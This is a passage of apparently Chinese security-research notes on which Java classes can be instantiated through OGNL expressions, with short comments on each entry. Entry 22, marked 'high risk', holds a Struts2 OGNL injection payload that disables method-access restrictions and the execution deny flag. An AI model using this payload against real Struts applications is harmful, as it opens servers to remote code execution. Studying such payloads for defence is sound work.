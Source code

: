   ![](./imgs/chop-20-002.png)  
  第三句，带权限语句
  ![](./imgs/chop-20-003.png)


### 21 = "org.springframework.context.ApplicationContext"
* 这是一个接口，不能实例化
* src-code  
  [Jump to ApplicationContext](./assets/ApplicationContext.java)


### 22 = "java.lang.SecurityManager"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
    #context["xwork.MethodAccessor.denyMethodExecution"]=false,
    #a=new java.lang.SecurityManager()}
  ```